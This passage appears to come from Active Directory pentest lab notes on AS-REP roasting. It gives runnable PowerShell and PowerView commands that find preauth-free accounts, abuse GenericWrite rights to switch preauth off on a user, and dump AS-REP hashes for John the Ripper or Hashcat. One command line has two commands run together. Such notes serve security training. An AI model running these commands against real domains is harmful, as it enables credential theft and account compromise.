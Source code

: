    # ActiveDirectory Module
    Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
    ```
    
    or let’s enumerate the permissions for *RDPUsers* on ACLs:
    
    ```powershell
    # PowerView
    Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -match "RDPUsers"}
    ```
    
    Users in *RDPUser* group have *GenericWrite* or *GenericAll* permission on *STUDENTI1* user so it is possible to force the disable of Kerberos Preauth on it:
    
    ```powershell
    # PowerView_dev
    Set-DomainObject -Identity "STUDENTI1" -XOR @{useraccountcontrol=4194304} -VerboseGet-DomainUser -PreauthNotRequired -Verbose
    ```
    
2. Request encrypted AS-REP for offline brute-force
    
    ```powershell
    # ASREPRoast
    # JohnTheRipper (bleeding-jumbo branch)
    Get-ASREPHash -UserName "STUDENTI1" -Verbose | Out-File -Encoding ASCII john_asrep.kirbi
    
    # HashCat
    Get-ASREPHash -UserName "STUDENTI1" -Verbose | % {$_.replace('$krb5asrep$','$krb5asrep$23$')} | Out-File -Encoding ASCII hashcat_asrep.kirbi
    ```
    
    It is also possible to enumerate all users with Kerberos preauth disabled and request a hash:
    
    ```powershell
    # ASREPRoast
    # JohnTheRipper (bleeding-jumbo branch)
    Invoke-ASREPRoast -Verbose | % { $_.Hash } | Out-File -Encoding ASCII john_asrep.kirbi
    
    # HashCat
    Invoke-ASREPRoast -Verbose | % { $_.Hash } | % {$_.replace('$krb5asrep$','$krb5asrep$23$')} | Out-File -Encoding ASCII hashcat_asrep.kirbi
    ```
    